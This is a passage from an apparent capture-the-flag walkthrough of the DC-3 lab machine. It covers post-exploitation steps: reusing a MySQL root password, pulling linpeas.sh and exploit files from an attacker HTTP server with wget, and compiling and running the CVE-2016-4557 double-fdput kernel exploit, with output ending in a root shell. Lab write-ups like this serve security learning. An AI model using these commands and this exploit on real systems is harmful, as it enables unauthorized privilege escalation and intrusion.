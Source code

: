 ```shellscript
www-data@DC-3:/var/www/html$ mysql -u root -p
Enter password: squires
```

I successfully logged in as the MySQL `root` user. While this gave me full control over the database, it was not yet root on the operating system.

I also checked the `/home` directory and found a user named `dc3`. Attempts to `cat .bash_history` or `su dc3` with various passwords (including `squires`) were unsuccessful.

### Identifying Kernel Vulnerability

I uploaded and ran `linpeas.sh` to perform a comprehensive privilege escalation enumeration:

```shellscript
wget http://192.168.1.5/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

`linpeas.sh` identified the kernel version as `Linux version 4.4.0-21-generic`. It highlighted several potential kernel exploits, with `[CVE-2016-4557] double-fdput()` being a highly probable candidate for this specific kernel version.

### Exploiting `double-fdput()`(CVE-2016-4557) for Root

I attempted to use the `decr.c` and `pwn.c` exploit pair (from `40053.zip`), but they failed to execute correctly, indicating that the `ip_tables` module was not loaded or other conditions were not met.

Based on the `linpeas.sh` output and `searchsploit` results, I then focused on the `double-fdput()` exploit (CVE-2016-4557), specifically the `ebpf_mapfd_doubleput_exploit` from `39772.zip`. I downloaded the necessary files (`compile.sh`, `doubleput.c`, `hello.c`, `suidhelper.c`) to the `/tmp` directory on the target machine using `wget` from my attacking machine's HTTP server.
<img width="1103" height="644" alt="image" src="https://github.com/user-attachments/assets/be433077-ac16-4da4-bec7-fce42fa6b547" />


```shellscript
wget http://192.168.1.5/compile.sh
wget http://192.168.1.5/doubleput.c
wget http://192.168.1.5/hello.c
wget http://192.168.1.5/suidhelper.c
chmod +x compile.sh
./compile.sh
```

The `compile.sh` script successfully compiled `doubleput.c` into an executable named `doubleput`.

Finally, I executed the compiled exploit:

```shellscript
./doubleput
```

The exploit ran successfully, and after a short period, it launched a root shell:

```shellscript
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
